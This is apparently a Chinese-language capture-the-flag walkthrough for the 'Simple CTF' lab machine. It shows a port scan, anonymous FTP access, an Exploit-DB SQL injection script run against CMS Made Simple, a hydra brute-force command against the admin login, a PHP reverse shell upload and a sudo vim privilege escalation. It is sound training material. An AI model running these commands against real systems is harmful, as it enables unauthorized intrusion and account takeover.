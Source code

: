 ```yaml
---
sidebar_position: 8
tags: [Easy, Linux, 信息泄露, 密码破解-弱密码, 文件上传, SUDO]
title: Simple CTF
sidebar_label: Simple CTF
---
```

# Simple CTF
## 端口扫描
![20240527110759](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527110759.png)
```bash

root@ip-10-10-238-137:~# rustscan -a 10.10.224.11 -t 1000 -u 5000 -p 21,80,2222 -- -sTCV

PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.238.137
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## 21 - FTP
我们发现 ftp 可以使用 anonymous 用户进行匿名身份认证登录， 我们在其中获取了一个文件， 他告诉我们开发人员的密码是一个弱密码

![20240527110830](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527110830.png)

:::tip
- 弱密码
- 系统和网站存在相同用户， 且密码相同
:::

# 80 - HTTP
![20240527110901](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527110901.png)

我们可以发现一个 simple 访问可以确定其是一个 CMS

![20240527110912](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527110912.png)

:::tip
- user : mitch
- version : 2.2.8
:::

在这里我们谷歌发现了一个 sqli 漏洞， 结合前面的弱密码， 所以我们可以有两个选择,一是使用 sqli 进行获取密码， 二是暴力破解密码， 我们优先使用 sqli 进行测试

<details>

    <summary>SQLI</summary>

    下载对应的 Payload [CMS Made Simple < 2.2.10 - SQL Injection](https://www.exploit-db.com/exploits/46635), 使用 python2 进行执行即可， 因为是加了 salt 所以直接暴力破解
    ```bash
    root@ip-10-10-238-137:~# python2 46635 -u http://10.10.224.11/simple/ -w `locate rockyou.txt` -c
    ```

    ![20240527111056](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111056.png)

</details>

<details>

    <summary>Hydra</summary>

    因为是一个弱密码， 所以可以尝试暴力破解
    ```bash
    root@ip-10-10-238-137:~# hydra -l mitch  -P  `locate rockyou.txt` 10.10.224.11 http-post-form "/simple/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"
    ```

    ![20240527111130](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111130.png)

</details>

![20240527111326](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111326.png)

## 后渗透
### www-data
我们在其中发现一个文件上传的位置， 所以我们可以尝试上传一个 php reverse shell 上去

![20240527111349](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111349.png)

![20240527111354](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111354.png)

### www-data --> mitch
:::tip
在之前 FTP 中, 知道密码是一样的， 所以可以直接登录
- 基于 pwncat-cs shell 直接切换用户
- 使用 ssh 连接注意端口是 2222
:::

![20240527111445](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111445.png)

### mitch --> root

发现用户可以以 root 身份运行 vim。 我们可以查找对应的 payload [vim#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

![20240527111525](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111525.png)